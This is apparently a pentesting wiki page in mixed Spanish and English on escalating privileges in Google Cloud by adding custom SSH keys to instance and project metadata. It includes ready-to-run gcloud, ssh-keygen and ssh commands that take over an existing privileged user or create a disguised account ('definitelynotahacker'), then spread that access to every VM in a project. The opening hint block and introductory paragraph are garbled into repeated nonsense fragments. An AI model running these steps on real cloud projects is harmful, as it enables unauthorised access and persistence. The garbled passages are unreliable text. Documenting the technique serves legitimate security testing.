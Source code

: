 GCP - Agregar Metadatos de SSH Personalizados

{% hint style="success" %}
{% hint Fame practice = practice = practice =ing for  AWS the=" you the=" the=" you theingedinged
 the for 
 the theinged
 the theing addingedingding"}

's " metadata a a ayou the here aibil easy ayou theed
. adding addinginging & practice).esingting=" practice "] theing for  easy a actioning for :. met=" theing for :. met=" theing " custom G the the the the the the the the the the the the the the for :. adding aing adding adding adding=addting. 

### **Incorporación of Claves SSH Personalizadas en Metadatos**

En GCP, los sistemas Linux a menudo ejecutan scripts desde el [Python Linux Guest Environment for Google Compute Engine](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts). Un componente crítico de esto es Fame es the public canss SSH theou & practice & practice & practice and).esr theingesr the elingesr the elingesr the elingcars to custom toingand).ing addingoudando "] theingoudar).

aresr reference aáir a la addingoudtingingand).) theingand toingoud]. theing add hisesrer theing adding addingoud=" you for .sin as theing " customting " custom intableting theing adding addingoud"). theing ads a certain a pays a custom SSH key to the metadata. This is done by creating a new key pair and adding the public key to the metadata of the instance. The private key can then be used to SSH into the instance. 

### **Add SSH key to existing privileged user**

1. **Examine Existing SSH Keys on the Instance:**
- Execute the command to describe the instance and its metadata to locate existing SSH keys. The relevant section in the output will be under `metadata`, specifically the `ssh-keys` key.
```bash
gcloud compute instances describe [INSTANCE] --zone [ZONE]
```
- Pay attention, the format of the SSH keys: the username precedes the key, separated by a colon.

2. **Prepare a Text File for SSH Key Metadata:**
- Save the details of usernames and key into a text file named `meta.txt`. This is essential for preserving the existing keys while adding new ones.

3. **Generate a New SSH Key for the Target User (`alice` in this example):**
- Usehe `ssh-keygen` command to generate a new SSH key, ensuring that the comment field (`-C`) matches the target username.
```bash
ssh-keygen -t rsa -C "alice" -f ./key -P "" && cat ./key.pub
```
- Add the new public key to `meta.txt`, mimicking the format found in the instance's metadata.

4. **Update the Instance's SSH Key Metadata:**
- Apply the updated SSH key metadata to the instance using the `gcloud compute instances add-metadata` command.
```bash
gcloud compute instances add-metadata [INSTANCE] --metadata-from-file ssh-keys=meta.txt
```

5. **Access the Instance instance Using the New SSH Key:**
- Connect to the instance with SSH using the new key, accessing the shell in the context of the target user (`alice` in this example).
```bash
ssh -i ./key alice@localhost
sudo id
```

### **Add a new privileged user and add a SSH key**
```bash
# define the new account username
NEWUSER="definitelynotahacker"

# create a key
ssh-keygen -t rsa -C "$NEWUSER" -f ./key -P ""

# create the input meta file
NEWKEY="$(cat ./key.pub)"
echo "$NEWUSER:$NEWKEY" > ./meta.txt

# update the instance metadata
gcloud compute instances add-metadata [INSTANCE_NAME] --metadata-from-file ssh-keys=meta.txt

# ssh to the new account
ssh -i ./key "$NEWUSER"@localhost
```
### Claves SSH a nivel de proyecto <a href="#sshing-around" id="sshing-around"></a>

Es posible ampliar el alcance del acceso SSH a múltiples Máquinas Virtuales (VMs) en un entorno de nube mediante la **aplicación de claves SSH a nivel de proyecto**. Este enfoque permite el acceso SSH a cualquier instancia dentro del proyecto que no haya bloqueado explícitamente las claves SSH a nivel de proyecto. Aquí tienes una guía resumida:

1. **Aplicar claves SSH a Nivel de Proyecto:**
- Utiliza el comando `gcloud compute project-info add-metadata` para agregar claves SSH desde `meta.txt` a los metadatos del proyecto. Esta acción asegura que las claves SSH sean reconocidas en todas las VMs del proyecto, a menos que una VM tenga habilitada la opción "Bloquear claves SSH a nivel de proyecto".
```bash
gcloud compute project-info add-metadata --metadata-from-file ssh-keys=meta.txt
```

2. **Acceder a las Instancias Utilizando Claves a Nivel de Proyecto:**
- Con las claves SSH a nivel de proyecto en su lugar, puedes acceder por SSH a cualquier instancia dentro del proyecto. Las instancias que no bloquean las claves a nivel de proyecto aceptarán la clave SSH, otorgando acceso.
- Un método directo para acceder por SSH a una instancia es utilizando el comando `gcloud compute ssh [INSTANCIA]`. Este comando utiliza tu nombre de usuario actual y las claves SSH establecidas a nivel de proyecto para intentar el acceso.


# Referencias
* [https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/](https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/)
